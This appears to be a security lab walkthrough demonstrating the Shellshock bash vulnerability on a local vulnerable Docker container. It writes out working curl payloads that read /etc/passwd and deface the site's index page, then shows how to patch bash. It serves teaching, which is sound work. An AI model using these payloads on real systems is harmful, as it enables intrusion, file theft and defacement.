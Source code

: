 # Vulnerable/Outdated Libraries

---


Shell-Shock (Bash) 
-------------------

Step 1: Run the image vulnerable to shell-shock `docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271`

    Screenshot here
    
Step 2: To exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container, run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://localhost:8080/cgi-bin/stats`

    Screenshot here
    
Step 3: To deface the website, run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable`

    Screenshot here
    
Step 4: Access http://localhost:8080 on browser to confirm.

    Screenshot here
    
Step 5: To fix the vulnerability, update bash by running `docker exec -ti <container_id> /bin/bash -c "apt-get update && apt-get install --only-upgrade bash"`

    Screenshot here
